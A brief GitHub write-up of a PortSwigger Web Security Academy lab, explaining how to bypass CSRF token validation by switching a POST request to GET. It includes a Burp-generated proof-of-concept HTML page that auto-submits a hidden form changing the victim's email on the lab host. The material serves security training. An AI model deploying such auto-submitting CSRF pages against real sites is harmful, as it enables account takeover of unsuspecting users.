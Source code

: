 # Lab: CSRF where token validation depends on request method

**Link**: [https://portswigger.net/web-security/csrf/lab-no-defenses](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-request-method)

**Solution**: seems that the CSRF token is fixed and there is no validation

1- Intercept the request with burp

2- Change the POST request to GET and delete the csrf token paramter

like the folllowing

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a9e000003c906e7c1125c66009600d9.web-security-academy.net/my-account/change-email">
      <input type="hidden" name="email" value="mohamed&#46;aaaa&#64;yahoo&#46;comaa" />

      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

<p align="center" width="100%">
  <img src="https://github.com/aboelkassem/portswigger-labs/blob/main/CSRF/Lab%20CSRF%20where%20token%20validation%20depends%20on%20request%20method/image1.png" width="500" hight="500"/>
</p>

